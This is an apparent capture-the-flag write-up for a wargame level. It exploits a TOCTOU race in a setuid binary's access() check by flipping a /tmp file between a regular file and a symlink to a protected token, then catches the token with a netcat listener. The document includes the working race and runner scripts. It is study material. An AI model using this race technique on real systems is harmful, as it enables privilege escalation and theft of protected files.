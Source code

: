 # 10

###### tags: `TocTou` `symlink` `access`

Login

```b
> ssh level10@$(ifconfig|grep 'inet '|awk 'NR==2 {print $2}') -p 4242
> Password: 
```

<details><summary>Tryout</summary>

- 2 files, seen it before
- try - `cat` - `./level10` - `./level10 token localhost`

```b
> ls -l
-rwsr-sr-x+ 1 flag10 level10 10817 level10
-rw-------  1 flag10 flag10     26 token

> cat token
cat: token: Permission denied

> ./level10
./level10 file host
	sends file to host if you have access to it

> ./level10 token localhost
You don't have access to ./token
```

</details>

Problem
- The main issue here is file `./token` - we dont have its permission
- `ltrace` - find out how `./level10` checks permission 
  - it uses `access()` 

```b
> ltrace ./level10 token localhost
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                                         = -1
^^^^^^ 🟡 

printf("You don't have access to %s\n", "token"You don't have access to token
)           = 31
+++ exited (status 31) +++
```

- Touch a file of our own, try again

```b
> ./level10 /tmp/tmp localhost
Connecting to localhost:6969 .. Unable to connect to host localhost

> ltrace ./level10 /tmp/tmp localhost
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("/tmp/tmp", 4)                                      = 0
printf("Connecting to %s:6969 .. ", "localhost")           = 32
                         ^^^^ 🟡 
fflush(0xb7fd1a20Connecting to localhost:6969 .. )         = 0
                                         ^^^^ 🟡 
```

- The program interacts with `localhiost:6969`
- we need a valid Host IP : 
  - `127.0.0.1`, or the old trick
  - `ifconfig | grep 'inet ' | awk 'NR==2 {print $2}' | cut -d ":" -f2`

```b
> ./level10 /tmp/tmp $(ifconfig | grep 'inet ' | awk 'NR==2 {print $2}' | cut -d ":" -f2)
Connecting to Localhost:6969 .. Connected!
Sending file .. wrote file!
```

nc, ltrace
- it opens and reads and sends out `/tmp/tmp` content
- it sends the content to `Localhost:6969`

```b
# t1
> nc -kl 6969
```
```b
# t2
> touch /tmp/tmp
> ./level10 /tmp/tmp Localhost
> Connecting to Localhost:6969 .. Connected!
Sending file .. wrote file!
```

- we want it to open/read/send the `token` instead!

```b
> ltrace ./level10 /tmp/tmp $(ifconfig|grep 'inet '|awk 'NR==2 {print $2}'|cut -d ":" -f2)
.
.
.
printf("Connected!\nSending file .. "Connected!
)                     = 27
fflush(0xb7fd1a20Sending file .. )                                         = 0
open("/tmp/tmp", 0, 010)                                   = 4
      ^^^^^^^^ 🟡 here is where our `token` should be read

read(4, "", 4096)                                          = 0
write(3, "", 0)                                            = 0
puts("wrote file!"wrote file!
)                                        = 12
+++ exited (status 12) +++
```

Goal
- Figure out a way to force `./level10` to read the true `token`:
  - exploit `access()`'s [TOCTOU](https://stackoverflow.com/questions/75587120/how-to-handle-toctou-problem-between-access-and-unlink) vulnerability 
- How: let's create a racing condition
- Design a file to do the following:
  - force `access()` to check a low-priority file
  - then, `open()` and `read()` deal w/ the hi-priority one

Solution:
- we need a file that _alternates_ its own type
  - type 1: a symlink to `token`
  - type 2: a regular file of our own
- write a script to do this 👇

`alternate.sh`

```b
rm -rf /tmp/tmp
t=/tmp/tmp
while true; do
  touch $t
  rm -rf $t
  ln -s /home/user/level10/token $t
  rm -rf $t
done
```

`runner.sh`

```b
while true; do  
  /home/user/level10/level10 /tmp/tmp $(ifconfig|grep 'inet '|awk 'NR==2 {print $2}'|cut -d ":" -f2) >/dev/null
  #/home/user/level10/level10 /tmp/tmp $(hostname -I|cut -d' ' -f2) >/dev/null
done
```
```b
> chmod 777 /tmp/alt.sh /tmp/go.sh

> \
bash /tmp/alt.sh 2>/dev/null & \
bash /tmp/go.sh  2>/dev/null & \
nc -kl 6969 | grep -E '[a-z0-9]'
	OR
nc -kl 6969 | grep -v '[][()]'

> kill $(jobs -p)
```
